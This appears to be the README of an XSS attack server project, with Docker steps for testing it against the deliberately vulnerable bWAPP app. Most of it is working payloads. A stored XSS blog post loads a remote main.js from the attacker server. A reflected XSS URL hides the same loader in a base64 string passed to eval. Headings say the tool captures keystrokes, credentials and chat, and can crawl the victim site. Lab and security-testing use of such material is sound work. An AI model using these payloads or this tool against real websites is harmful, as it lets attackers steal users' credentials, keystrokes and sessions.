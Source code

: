 # xss_server

How to test:
1) docker run -d -p 80:80 digitalpipelines/bwapp-docker
2) git clone https://github.com/chickenidol/xss_server.git
3) cd xss_server/docker && mkdir db && docker build -t test:xss_server . --no-cache
4) docker run -ti -v $(pwd)/db:/xss_server/client/db  -p 8000:80 test:xss_server



1) Stored XSS, keys, creds, chat
	1.1) Place blog message:
		Hi, nice blog!
		<script>
			let client_id = `someid`
			const urlParams = new URLSearchParams(window.location.search);
			const linkId = urlParams.get(`linkId`)

			if (linkId)
				client_id = linkId

			let main_script = document.createElement(`script`)
			main_script.src = `http://127.0.0.1:8000/main.js/` + client_id
			document.body.appendChild(main_script)
		</script>

	1.2) Open link:
http://127.0.0.1/xss_stored_1.php либо http://127.0.0.1/xss_stored_1.php?linkId=wefwe

2) Stored XSS, keys, creds, chat, crawl
	2.1) iframe.src = "http://127.0.0.1/";
	2.2) const HOST_TO_CRAWL = "127.0.0.1"
	2.3) uncomment block in crawl.js

3) Reflected. 

http://127.0.0.1/xss_get.php?firstname=%3Cscript%3Eeval(atob(`dmFyIHU9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7dS5zcmM9Imh0dHA6Ly8xMjcuMC4wLjE6ODAwMC9tYWluLmpzL2V3ZmV3ZndlZiI7ZG9jdW1lbnQuYm9keS5hcHBlbmQodSk7`))%3C%2Fscript%3E&lastname=test&form=submit

